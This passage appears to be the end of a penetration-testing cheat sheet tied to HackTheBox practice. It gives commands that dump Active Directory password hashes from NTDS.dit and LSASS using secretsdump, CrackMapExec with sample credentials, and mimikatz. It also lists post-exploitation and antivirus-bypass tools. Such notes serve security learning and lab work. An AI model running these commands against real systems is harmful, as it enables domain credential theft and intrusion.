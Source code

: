 
## &nbsp; &nbsp;&nbsp;&nbsp; NTDS.dit dump
<pre class="prettyprint linenums:"><code class="language-powershell">secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit -outputfile /tmp/result local

python crackmapexec.py 192.168.1.56 -u morph3 -p pass1234 -d evilcorp.com --ntds drsuapi

# on DC, lsass.exe can dump hashes
lsadump::lsa /inject
</code></pre>




# Summary of tools

## &nbsp; &nbsp;&nbsp;&nbsp; Ad Environment
[icebreaker](https://github.com/DanMcInerney/icebreaker)
[bloodhound](https://github.com/BloodHoundAD/BloodHound)

## &nbsp; &nbsp;&nbsp;&nbsp;  Post Exploitation
[Empire](https://github.com/EmpireProject/Empire)
[DeathStar](https://github.com/byt3bl33d3r/DeathStar)
[CrackMapExec - CME](https://github.com/byt3bl33d3r/CrackMapExec)
[Covenant](https://github.com/cobbr/Covenant)
[Rubeus](https://github.com/GhostPack/Rubeus)
[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

## &nbsp; &nbsp;&nbsp;&nbsp; Bypass
[Ebowla](https://github.com/Genetic-Malware/Ebowla)
[Veil-Framework](https://github.com/Veil-Framework/Veil)
[PsBypassCLM](https://github.com/padovah4ck/PSByPassCLM)

## &nbsp; &nbsp;&nbsp;&nbsp; Swiss Knife
[impacket](https://github.com/SecureAuthCorp/impacket)


# Credits
Thanks to [HTB](http://hackthebox.eu/) for creating such a great platform.
Special thanks to [Layle](https://twitter.com/layle_ctf) and [xct](https://twitter.com/xct_de) they helped me in countless topics. Learned so much from them.
